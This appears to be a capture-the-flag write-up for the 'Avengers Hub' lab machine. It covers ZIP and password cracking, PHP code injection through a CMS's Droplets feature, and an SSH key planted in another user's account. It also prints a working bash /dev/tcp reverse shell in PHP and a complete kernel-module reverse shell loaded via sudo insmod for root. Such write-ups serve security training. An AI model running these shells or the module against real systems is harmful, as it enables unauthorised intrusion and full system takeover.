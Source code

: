 # CTF Write-Up: Avengers Hub - Hackifinity Battle - Hard

## Step 1: Target Enumeration

The first step is to locate the target and perform an Nmap scan to check for open and hidden ports.

## Step 2: Directory and File Search

Using ffuf, we perform a directory and file search on the target. The most interesting discovery is a **breakglass.zip** file, which is protected by a password.

## Step 3: Cracking the ZIP File

We attempt to crack the ZIP file password using fcrackzip with the RockYou wordlist:
```cmd
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt breakglass.zip
```
After a short while, we successfully crack the password. Inside the ZIP file, we find a hashed admin password.

## Step 4: Cracking the Admin Password

We successfully crack the hashed password, which is revealed to be: **securepassword**. Using this password, we gain admin access to the CMS.

## Step 5: Exploring the CMS for Exploits

We look around the CMS and find few ways to gain a reverse shell to the machine. My approach after reading about the cms is to use **Droplets** function that allows to inject PHP code.
![avenger writeup1](https://github.com/user-attachments/assets/1b0d353c-f4fc-4f71-90bf-593d8658d4de)

## Step 6: Bypassing Disabled PHP Functions

However, after multiple attempts, we realize that some PHP functions are disabled. We enumerate the disabled functions using:
```php
echo ini_get('disable_functions') . "\n";
$zmienna = file_get_contents('/etc/passwd');
echo "<pre>$zmienna</pre>";
```
#### Disabled Functions:
```cmd
shell_exec, exec, passthru, system, proc_open, expect_popen
```
## Step 7: Crafting the Reverse Shell

We bypass the restrictions by crafting a PHP reverse shell:
```php
$ip = '10.8.26.132';
$port = 1234;
$handle = popen("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'", 'r');
pclose($handle);
```
![avenger writeup2](https://github.com/user-attachments/assets/acf0facb-eaf9-4ba0-b8f3-3ec9e3166182)

Then, we create a page, and insert the droplet into this page: 
![avengers writeup3](https://github.com/user-attachments/assets/36b22613-7c70-497a-86af-96e470da5c60)

Now we open the page and we had received a **reverse shell as www-data**!
![avengers writeup](https://github.com/user-attachments/assets/3d5608e8-4884-40a4-82a1-0820e57c17a0)

## Step 8: Gaining User Privileges

After further enumeration, we find write access to the SSH authorized keys of user Void, who owns the user.txt flag.

We inject our public SSH key, allowing us to connect as user Void:
```cmd
ssh -i id_rsa void@target_ip
```
![writeup](https://github.com/user-attachments/assets/894cb1e8-e96d-4cd2-b5e4-05c0952f31e8)

### 🎉 Now, we have user access!

![writeup2](https://github.com/user-attachments/assets/27a6a83d-c2b8-49db-aaab-2bff4aa70766)

 
## Step 9: Escalating to Root with a Kernel Module

We check for sudo permissions:
```cmd
sudo -l
```
We discover permission to execute /sbin/insmod, which allows us to load a kernel module (.ko file).

## Step 10: Creating the Malicious Kernel Module

We create cyberavengers.c on the target:
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "10.20.20.20"
#define REMOTE_PORT "8888"

static int reverse_shell_thread(void *data)
{
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Kernel module reverse shell");

Creating a Makefile for Compilation
```
We create a Makefile:
```make
obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
## Step 11: Compile and Load the Malicious Kernel Module

1. Compile the module on the target:
```cmd
make
```
3. Set up a listener on the attacker machine:
```cmd
nc -lvnp 8888
```
3. Load the malicious kernel module:
   
```cmd
sudo /sbin/insmod cyberavengers.ko
```
**We now have a root reverse shell on our listener!**


